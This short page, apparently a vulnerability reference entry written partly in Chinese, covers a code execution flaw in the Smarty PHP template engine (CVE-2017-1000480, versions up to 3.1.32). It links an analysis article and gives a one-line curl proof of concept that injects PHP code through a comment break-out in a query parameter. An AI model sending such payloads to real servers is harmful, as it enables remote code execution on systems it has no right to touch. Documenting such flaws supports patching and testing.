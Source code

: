 ## Smarty 

### 3.1.20

影响版本

* <= 3.1.32

参考链接

* [Smarty <= 3.1.32 代码执行漏洞分析—【CVE-2017-1000480】](https://mp.weixin.qq.com/s/MkXv1wU9qIfyGq4izH2VwQ)

Poc

```
curl http://127.0.0.1/?test=*/;phpinfo();/*
```

